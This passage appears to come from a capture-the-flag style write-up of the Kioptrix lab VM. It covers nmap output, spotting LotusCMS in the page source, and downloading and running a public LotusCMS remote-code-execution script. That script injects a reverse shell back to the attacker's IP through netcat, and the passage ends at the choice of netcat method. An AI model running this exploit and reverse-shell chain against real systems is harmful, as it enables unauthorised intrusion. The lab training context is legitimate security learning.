 ```bash
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.50 ms 192.168.56.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds
```

I couldn't find any vulnerabilities in the OpenSSH version and the Apache version running on the web server, so I went to check out what kind of website the target was running and was greeted with the following:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix12_website.png)

Taking a look at the page source (which is always a good first thing to do) showed the CMS the website was using:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix12_pagesource.png)

I couldn't find any working exploits for this CMS by using `searchsploit` or [exploit-DB](https://www.exploit-db.com), but [the following exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh) did work:

```bash
kali@kali:~$ wget https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh
--2020-05-01 04:55:21--  https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3740 (3.7K) [text/plain]
Saving to: ‘lotusRCE.sh’

lotusRCE.sh                                 100%[==========================================================================================>]   3.65K  --.-KB/s    in 0s      

2020-05-01 04:55:21 (28.1 MB/s) - ‘lotusRCE.sh’ saved [3740/3740]

kali@kali:~$ chmod +rwx lotusRCE.sh
kali@kali:~$ ./lotusRCE.sh 192.168.56.109
Path found, now to check for vuln....

</html>Hood3dRob1n
Regex found, site is vulnerable to PHP Code Injection!

About to try and inject reverse shell....
what IP to use?
192.168.56.102
What PORT?
7777

OK, open your local listener and choose the method for back connect:
1) NetCat -e
2) NetCat /dev/tcp
3) NetCat Backpipe
4) NetCat FIFO
5) Exit
#? 1
```
